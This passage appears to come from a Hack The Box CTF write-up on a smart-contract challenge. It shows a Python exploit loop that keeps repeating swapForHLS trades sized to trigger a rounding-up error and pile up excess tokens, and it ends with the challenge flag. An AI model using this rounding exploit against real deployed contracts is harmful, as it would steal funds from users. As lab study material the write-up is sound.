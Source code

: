 The exploit script will just be a controlled loop that repeats the `swapForHLS` trades until we reach the desired projected gain:

```py
[...]
    trade_cost = 10**17 + 1 
    while True:
        n_trades += 1
        print(f"\n\n[+] Trade #{n_trades}")

        # trigger rounding up to ceil with just 1 wei
        csend(target_addr, "swapForHLS()", value=str(trade_cost))
        
        # get current HLS balance
        hls_balance = int(ccall(hls_token, "balanceOf(address)(uint256)", player_account.address))
        print(f"[+] current HLS balance: {hls_balance}")

        eth_gain = ((hls_balance - prev_hsl_balance) * (10**18 / exchange_ratio_hsl)) - trade_cost
        total_eth_gain = (hls_balance * (10**18 / exchange_ratio_hsl)) - (trade_cost) * n_trades
        print(f"[+] ETH gain from the trade: {eth_gain}")
        print(f"[+] total projected ETH gain: {total_eth_gain}")
        assert hls_balance > prev_hsl_balance
        assert eth_gain > 0
        prev_hsl_balance = hls_balance

        if total_eth_gain >= 10e18:
            break
[...]
```

see the full exploitation script here.

***

> `HTB{0n_Heli0s_tr4d3s_a_d3cim4l_f4d3s_and_f0rtun3s_ar3_m4d3}`
